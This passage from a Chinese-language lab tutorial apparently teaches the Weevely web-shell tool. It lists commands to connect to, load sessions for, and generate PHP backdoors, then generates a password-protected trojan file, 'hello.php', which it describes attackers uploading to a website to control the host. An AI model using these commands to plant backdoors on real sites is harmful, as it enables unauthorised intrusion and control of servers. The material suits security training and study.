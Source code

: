 上图中显示的各个参数，具体的使用语法如下所示：

```
#  连接木马程序
weevely <URL> <password> [cmd]
 
# 加载 session 会话
weevely session <path> [cmd]

# 生成后门代理木马
weevely generate <password> <path>
```

## 四、过程实现

### 4.1 生成 PHP 挂马文件

PHP 木马是在 Web 攻击中，比较常见的一种木马文件。一般情况下，攻击者将生成 PHP 木马，上传至网站的目录下，接着在本机输入攻击命令，建立起攻击机和目标主机两者之间的联系，这其中 PHP 木马充当了控制目标主机的媒介。

上面介绍了 Weevely 的参数怎么使用，接下来我们使用 Weevely 命令来生成 PHP 木马，实现木马生成这一过程。在终端中，输入如下命令：

```
# 生成 php 木马程序
weevely generate hello /root/hello.php
```
这条命令中的各个参数，所代表的含义分别为：

| 参数名称          | 参数代表含义                                                 |
| ----------------- | ------------------------------------------------------------ |
| `hello`           | weevely 连接木马，创建会话，需要密码验证， `hello` 为连接会话时，所需要输入的密码。 |
| `/root/hello.php` | 在攻击者的本地环境中，指定生成木马文件的具体位置，这里为 `/root` 文件夹下。 |


![图片描述](../imgs/1481010650852.png-wm.png)


在输入生成 PHP 木马文件命令后，可以看到目录 `/root/`下，已经存在了 PHP 木马文件 `hello.php`：

![图片描述](../imgs/1481010703158.png-wm.png)
